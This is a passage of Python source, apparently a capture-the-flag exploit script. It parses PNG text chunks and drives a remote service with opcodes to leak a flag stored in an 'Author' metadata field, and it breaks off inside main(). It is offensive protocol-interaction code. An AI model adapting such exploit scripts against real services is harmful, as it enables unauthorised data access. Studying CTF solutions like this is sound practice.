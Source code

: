 ```python
        if ctype == b"IEND":
            break
    return out


def parse_kv_payload(payload: bytes) -> Dict[str, str]:
    """Best-effort parse of a key/value bundle produced by opcode 0x32.

    The server serializes a small structure with fields like "Author", "Comment",
    and "Software" using an internal container format. We conservatively scan the
    payload for printable tokens and map well-known keys to the token that follows.
    """
    # First, handle PNG tEXt-encoded bundles, which the server commonly emits
    # (Author/Software are stored as PNG text chunks).
    png = parse_png_text_chunks(payload)
    if png:
        return png

    tokens = tokenize_printables(payload)
    keys = {b"Author", b"Comment", b"Software"}
    out: Dict[str, str] = {}
    for i, tok in enumerate(tokens):
        # Allow cases like 'tEXtAuthor' by checking substring containment
        matched_key: Optional[bytes] = None
        for k in keys:
            if tok == k or (k in tok):
                matched_key = k
                break
        if matched_key and i + 1 < len(tokens):
            # Prefer the very next printable token as the value
            key = matched_key.decode("ascii", errors="ignore")
            val = tokens[i + 1].decode("utf-8", errors="ignore")
            # Guard against obviously invalid huge values
            if len(val) > 0:
                out[key] = val
    return out


# Exploit flow ---------------------------------------------------------------

def exploit_fetch_metadata(io) -> Tuple[Optional[Dict[str, str]], bytes]:
    # 0x10: enable session; 0x22: build default entry with flag in Author; 0x32 x01: request bundle
    send_cmd(io, b"\x10")
    io.recv(timeout=1.1)  # ignore 1-byte ack if present
    send_cmd(io, b"\x22")
    io.recv(timeout=1.1)
    send_cmd(io, b"\x32\x01")

    chunk = read_chunk(io, timeout=2.0)
    if not chunk:
        return None, b""
    tag, payload = chunk
    parsed = parse_kv_payload(payload)
    return parsed, payload


def main():
    host = os.environ.get("HOST", "127.0.0.1")
    port = int(os.environ.get("PORT", "4265"))
    io = remote(host, port)
    try:
        kv, raw = exploit_fetch_metadata(io)
        if kv:
```